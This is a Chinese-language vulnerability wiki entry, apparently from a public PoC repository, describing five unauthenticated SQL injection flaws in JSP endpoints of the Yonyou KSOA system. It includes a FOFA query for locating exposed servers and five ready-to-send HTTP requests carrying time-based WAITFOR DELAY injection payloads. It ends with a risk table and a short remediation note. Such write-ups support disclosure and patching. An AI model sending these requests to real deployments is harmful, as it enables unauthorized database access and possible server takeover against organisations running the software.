





---

source: "SourByte05/Vulnerability-Wiki-PoC"
---

# 用友时空五处SQL注入漏洞

# 漏洞描述

用友时空KSOA系统 PrintZP.jsp、PrintZPFB.jsp、PrintZPYG.jsp、PrintZPZP.jsp、fillKP.jsp等多处接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

影响版本

用友-时空KSOA

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="用友-时空KSOA"

POC/EXP：延时5秒，执行2次

GET /kp/PrintZP.jsp?zpfbbh=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27-- HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36

POC/EXP：延时3秒，执行2次

GET /kp/PrintZPFB.jsp?zpfbbh=1%27%3BWAITFOR+DELAY+%270%3A0%3A3%27-- HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36

POC/EXP：

GET /kp/PrintZPYG.jsp?zpjhid=1%27%3BWAITFOR+DELAY+%270%3A0%3A10%27-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close

POC/EXP：

GET /kp/PrintZPZP.jsp?zpshqid=1';WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close

POC/EXP：延时5秒，执行两次 

GET /kp/fillKP.jsp?kp_djbh=1';WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close

# 修复方案

1. 限制访问来源地址，如非必要，不要将系统开放在互联网上。

   升级至安全版本或打补丁。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
